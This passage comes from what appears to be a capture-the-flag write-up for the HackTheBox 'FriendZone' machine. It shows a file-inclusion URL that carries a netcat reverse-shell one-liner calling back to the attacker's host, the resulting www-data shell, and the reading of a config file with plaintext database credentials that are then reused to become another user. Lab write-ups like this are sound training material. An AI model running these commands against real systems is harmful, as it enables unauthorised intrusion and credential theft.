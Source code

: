 Of course I want a real shell. I’ll use my go to from the [Reverse Shell Cheat
Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet),
and visit:
`https://administrator1.friendzone.red/dashboard.php?image_id=&pagename=../../../etc/Development/0xdf&cmd=rm
/tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%261|nc 10.10.14.7 443 >/tmp/f`
(remembering to encode the `&` as `%26`):

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.123.
    Ncat: Connection from 10.10.10.123:45840.
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

After a shell upgrade (`python -c 'import pty;pty.spawn("bash")'`, `ctrl-z`,
`stty raw -echo`, `fg`, `reset`, enter “screen” for terminal type if asked),
I’ve got a full shell. And I can get user.txt:

    
    
    www-data@FriendZone:/home/friend$ cat user.txt 
    a9ed20ac...
    

## Priv: www-data to friend

In the `/var/www/` directory, there’s folders for all the different sites, as
well as an sql conf file:

    
    
    www-data@FriendZone:/var/www$ ls
    admin       friendzoneportal       html             uploads
    friendzone  friendzoneportaladmin  mysql_data.conf
    
    www-data@FriendZone:/var/www$ cat mysql_data.conf 
    for development process this is the mysql creds for user friend
    
    db_user=friend
    db_pass=Agpyu12!0.213$
    db_name=FZ
    

Those creds happen to work for friend. I can either `su friend`:

    
    
    www-data@FriendZone:/var/www$ su friend
    Password: 
    friend@FriendZone:/var/www$ 
    

or ssh in with them:
